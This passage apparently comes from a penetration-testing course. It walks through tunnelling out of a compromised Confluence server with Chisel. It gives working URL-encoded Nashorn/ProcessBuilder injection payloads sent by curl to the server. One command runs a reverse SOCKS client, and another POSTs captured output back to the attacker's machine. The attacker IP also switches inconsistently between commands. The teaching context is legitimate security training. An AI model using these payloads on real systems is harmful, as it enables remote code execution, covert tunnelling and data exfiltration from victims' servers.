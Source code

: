 Now that we have the Chisel binary on both our Kali machine and the target, we can run them. On the Kali machine, we'll start the binary as a server with the server subcommand, along with the bind port (--port) and the --reverse flag to allow the reverse port forward.

```bash
kali@kali:~$ chisel server --port 8080 --reverse
```

Before we try to run the Chisel client, we'll run tcpdump on our Kali machine to log incoming traffic. We'll start the capture filtering to tcp port 8080 to only capture traffic on TCP port 8080.

We want to connect to the server running on our Kali machine (192.168.118.4:8080), creating a reverse SOCKS tunnel (R:socks). The R prefix specifies a reverse tunnel using a socks proxy (which is bound to port 1080 by default). The remaining shell redirections (> /dev/null 2>&1 &) force the process to run in the background, so our injection does not hang waiting for the process to finish.

The Chisel client command we run from the web shell:

```bash
/tmp/chisel client 192.168.45.176:8080 R:socks > /dev/null 2>&1 &
```

We'll convert this into a Confluence injection payload, and send it to CONFLUENCE01:

```bash
kali@kali:~$ curl http://192.168.247.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.176:8080%20R:socks%27%29.start%28%29%22%29%7D/
```

However, nothing happens. We don't see any traffic hit our Tcpdump session, and the Chisel server output doesn't show any activity.

This indicates there may be something wrong with the way we're running the Chisel client process on CONFLUENCE01. However, we don't have direct access to the error output when running the binary. We need to figure out a way to read the command output, which may be able to point us towards the problem. We should then be able to solve it.

To read the command output, we can construct a command which redirects stdout and stderr output to a file, and then send the contents of that file over HTTP back to our Kali machine. We use the &> operator, which directs all streams to stdout, and write it to /tmp/output. We then run curl with the --data flag, telling it to read the file at /tmp/output, and POST it back to our Kali machine on port 8080.

The error-collecting-and-sending command string:

```bash
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/
```

We can then create an injection payload using this command string, and send it to the vulnerable Confluence instance:

```bash
kali@kali:~$ curl http://192.168.247.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.45.176:8080/%27%29.start%28%29%22%29%7D/
```

---